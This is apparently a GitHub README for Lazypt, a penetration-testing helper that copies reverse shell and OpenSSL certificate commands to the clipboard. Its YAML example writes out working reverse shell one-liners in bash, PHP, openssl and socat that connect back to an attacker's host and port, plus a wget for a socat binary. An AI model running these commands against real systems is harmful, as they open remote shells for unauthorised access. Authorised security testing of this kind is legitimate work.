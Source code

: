 # Lazypt

Lazypt is a simple Python program that pastes to your clipboard some common penetration testing commands.

## Features

- Reverse shell cheatsheet
- Openssl certificates conversion/generation cheatsheet

### Reverse shell cheatsheet
The following reverse shell commands are available. They can be expanded with your custom cheatsheet by editing the file revshell.yaml
- py
- pl
- sh
- php
- rb
- awk
- openssl
- socat

### YAML example

```yaml
---
- sh:
    code: bash -i >& /dev/tcp/{}/{} 0>&1
- php:
    code: php -r '$sock=fsockopen("{}",{});exec("/bin/sh -i <&3 >&3 2>&3");'
- openssl:
    code: |-
       Attacker> ncat --ssl -vv -l -p {}
       Target> mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect {}:{} > /tmp/s; rm /tmp/s
- socat:
    code: |-
      Attacker> socat file:`tty`,raw,echo=0 tcp-listen:{}
      Target> socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:{}:{}
      Socat binary> wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat
```

place {} where you want to put LHOST and LPORT passed to the program as args.


### OpenSSL cheatsheet
The following reverse shell commands are available. They can be expanded with your custom cheatsheet by editing the file revshell.yaml
- Generate a Private Key and a CSR
- Generate a CSR from an Existing Private Key 
- Generate a CSR from an Existing Certificate and Private Key
- Generate a Self-Signed Certificate
- Generate a Self-Signed Certificate from an Existing Private Key
- Generate a Self-Signed Certificate from an Existing Private Key and CSR
- Convert PEM to DER
- Convert DER to PEM
- Convert PEM to PKCS7
- Convert PKCS7 to PEM  
- Convert PEM to PKCS12
- Convert PKCS12 to PEM
    
## Dependencies
- click
- pyperclip
- pyYAML

## Installation

```bash
git clone https://
cd lazypt
python setup.py install
```

## Usage

```bash
Usage: lazypt rsh [OPTIONS] LHOST LPORT [py|pl|sh|php|rb|awk|openssl|socat]

  Copy the chosen reverse shell code to the clipboard. It allows to switch
  the scripting language. (Does not run the commands)

Options:
  --help  Show this message and exit.
```

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.


## License
[MIT](https://choosealicense.com/licenses/mit/)

